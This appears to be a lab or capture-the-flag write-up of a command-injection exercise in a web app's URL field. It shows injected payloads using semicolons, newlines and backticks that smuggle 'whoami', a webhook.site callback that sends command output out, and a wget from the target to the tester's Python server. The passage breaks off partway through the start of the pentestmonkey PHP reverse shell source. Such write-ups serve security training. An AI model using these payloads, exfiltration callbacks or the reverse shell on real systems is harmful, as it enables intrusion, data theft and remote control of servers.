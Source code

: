 ```
https://tcm-sec.com; whoami; asd
```

<figure><img src="../../../../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

So it filters our input in some way that makes the semicolons disappear

let's try webhook command injection

<pre><code><strong>https://webhook.site/3b654785-96d1-X.X.X.X.X?`whoami`
</strong></code></pre>

<figure><img src="../../../../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

we captured the request, and it prints out the useful information we need

let's try to play with what we have to get more useful information:

let's host a python server:

```
┌──(root㉿kali)-[/home/kali]
└─# python -m http.server 9898
Serving HTTP on 0.0.0.0 port 9898 (http://0.0.0.0:9898/) ...
```

```
https://tcm-sec.com \n wget 172.16.X.X:9898/test
```

```
┌──(root㉿kali)-[/home/kali]
└─# python -m http.server 9898
Serving HTTP on 0.0.0.0 port 9898 (http://0.0.0.0:9898/) ...
172.18.X.X - - [31/Jan/2024 11:03:15] code 404, message File not found
172.18.X.X - - [31/Jan/2024 11:03:15] "HEAD /test HTTP/1.1" 404 -
```

we successfully did a request to our local server, from there it's going to be a smooth ride ->

download a reverse shell from pentestmonkey:

```
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
```